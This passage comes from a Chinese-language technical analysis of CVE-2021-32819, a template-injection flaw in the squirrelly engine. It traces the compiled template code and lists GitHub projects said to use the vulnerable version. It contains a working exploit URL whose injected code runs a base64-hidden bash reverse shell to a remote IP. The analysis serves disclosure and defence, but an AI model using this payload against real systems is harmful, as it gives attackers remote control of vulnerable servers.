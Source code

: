 ```js
tR+='\n<html>\n    <head>\n        <title>CVE-2021-32819</title>\n        <h1>Test For CVE-2021-32819</h1>\n    </head>\n<body>\n    <h1>';
tR+=c.l('F','e')(it.variable);
tR+='</h1>\\n</body>\\n</html>';
```

最后将 `filtered` 的内容添加到 `returnStr` 变量中并返回给 `compileToString` 函数作用域的 `res` 变量中，然后再由 `compileToString` 函数将 `res` 变量的内容拼接成一个匿名函数，内容如下：

```js
 var res = "var tR='';" + "tR+='\n<html>\n    <head>\n        <title>CVE-2021-32819</title>\n        <h1>Test For CVE-2021-32819</h1>\n    </head>\n<body>\n    <h1>';tR+=c.l('F','e')(it.variable);tR+='</h1>\\n</body>\\n</html>';" + 'if(cb){cb(null,tR)} return tR'
 // it.variable 的值为 HelloWorld
```

当返回到 `handleCache` 函数时，将会执行匿名函数：

```js
(function anonymous(it,c,cb
) {
    var tR='';
    tR+='\n<html>\n    <head>\n        <title>CVE-2021-32819</title>\n        <h1>Test For CVE-2021-32819</h1>\n    </head>\n<body>\n    <h1>';
    tR+=c.l('F','e')(it.variable);
    tR+='</h1>\n</body>\n</html>';
    if(cb){cb(null,tR)}
    return tR
})
```

看到这里你应该就明白了。这个漏洞主要的引入点就是 `compileScope` 函数中的 `env.defaultFilter`，我们可以通过 URL 中的参数来覆盖这个配置属性的值，比如：`/?defaultFilter=payload` 可以将 `env.defaultFilter` 的值覆盖为我们的 payload。并且一旦设置了 `env.defaultFilter` 的值，将进入到以下代码：

```js
content = "c.l('F','" + env.defaultFilter + "')(" + content + ')';
```

可知我们可以通过设置 `env.defaultFilter` 的值来注入希望执行的代码。所以该漏洞利用的 Payload 如下：

```python
http://192.168.226.148:3000/?defaultFilter=e')); let require = global.require || global.process.mainModule.constructor._load; require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIyNi4xNDMvMjMzMyAgMD4mMQ==|base64 -d|bash'); //
# 使用时需进行 URL 编码
```

可能受到该漏洞影响的项目
------------

分析github上100星以上的项目，共有380个项目使用了squirrelly组件，其中有42个项目使用了存在漏洞的8.0.8版本，具体的项目清单如下，有使用的TX可以自查一下：

| 项目名称 | 项目url |
|---|---|
| open-olive/vscode-loop-development-kit | <https://github.com/open-olive/vscode-loop-development-kit> |
| mizchi/uniroll | <https://github.com/mizchi/uniroll> |
| reissmatt/risen-one-mission-platform | <https://github.com/reissmatt/risen-one-mission-platform> |
| rpenco/light-webhook | <https://github.com/rpenco/light-webhook> |
| JuanFdS/scriptBolaMagica | <https://github.com/JuanFdS/scriptBolaMagica> |
| xnite/kittencore | <https://github.com/xnite/kittencore> |
| adamuchi/login-with-demo | <https://github.com/adamuchi/login-with-demo> |
| Berzok/Verena\_Codex | [https://github.com/Berzok/Verena\_Codex](https://github.com/Berzok/Verena_Codex) |